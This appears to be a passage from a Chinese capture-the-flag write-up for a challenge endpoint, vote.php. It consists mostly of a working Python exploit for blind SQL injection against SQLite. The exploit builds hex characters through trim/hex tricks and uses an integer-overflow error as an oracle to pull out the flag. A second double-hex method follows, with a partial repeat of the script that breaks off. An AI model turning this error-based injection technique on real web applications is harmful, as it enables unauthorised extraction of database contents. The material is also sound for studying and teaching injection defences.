 ```python
# || 是连接符，第二项的意思是 16||C||F ，也就是利用 trim 删除 1,6,C,F
```

然后就是师傅的exp

```python
import requests,binascii,time
l=84
url="http://08868133-acae-46f7-9d42-25203638a53e.node4.buuoj.cn:81/"+"vote.php"
table = {}
table['A'] = 'trim(hex((select(name)from(vote)where(case(id)when(3)then(1)end))),12567)' 
# 'zebra' → '7A65627261'
# trim 删除 1,2,5,6,7 后只剩下了 A ，以下同理
table['C'] = 'trim(hex(typeof(.1)),12567)' 
# 'real' → '7265616C'
table['D'] = 'trim(hex(0xffffffffffffffff),123)' 
# 0xffffffffffffffff = -1 → '2D31'
table['E'] = 'trim(hex(0.1),1230)' 
# 0.1 → 302E31
table['F'] = 'trim(hex((select(name)from(vote)where(case(id)when(1)then(1)end))),467)' 
# 'dog' → '646F67'
table['B'] = f'trim(hex((select(name)from(vote)where(case(id)when(4)then(1)end))),16||{table["C"]}||{table["F"]})' 
# 'koala' → '6B6F616C61'
# || 是连接符，第二项的意思是 16||C||F ，也就是利用 trim 删除 1,6,C,F
res = binascii.hexlify(b'flag{').decode().upper()
for i in range(len(res), l):
  for x in '0123456789ABCDEF':
    t = '||'.join(c if c in '0123456789' else table[c] for c in res + x)
    r = requests.post(url, data={
      'id': f'abs(case(replace(length(replace(hex((select(flag)from(flag))),{t},trim(0,0))),{l},trim(0,0)))when(trim(0,0))then(0)else(0x8000000000000000)end)'
    })
    if b'An error occurred' in r.content:
      res += x
      break
    time.sleep(0.6)
  print(f'[+] flag ({i}/{l}): {res}')
  i += 1
print('[+] flag:', binascii.unhexlify(res).decode())
```

:record_button: 解法2 双重hex去掉一次非数字

```
sqlite> select hex(hex((select flag from flag)));
363636433631363737423632333933363634363533373636333332443632363333313337324433343331333333323244363236343331333332443339333036313632363536323339363533383333333533353744
```

```
import requests,binascii,time
l=168
url="http://08868133-acae-46f7-9d42-25203638a53e.node4.buuoj.cn:81/"+"vote.php"
table = {}
table['A'] = 'trim(hex((select(name)from(vote)where(case(id)when(3)then(1)end))),12567)' 
# 'zebra' → '7A65627261'
# trim 删除 1,2,5,6,7 后只剩下了 A ，以下同理
table['C'] = 'trim(hex(typeof(.1)),12567)' 
# 'real' → '7265616C'
table['D'] = 'trim(hex(0xffffffffffffffff),123)' 
# 0xffffffffffffffff = -1 → '2D31'
table['E'] = 'trim(hex(0.1),1230)' 
# 0.1 → 302E31
table['F'] = 'trim(hex((select(name)from(vote)where(case(id)when(1)then(1)end))),467)' 
# 'dog' → '646F67'
```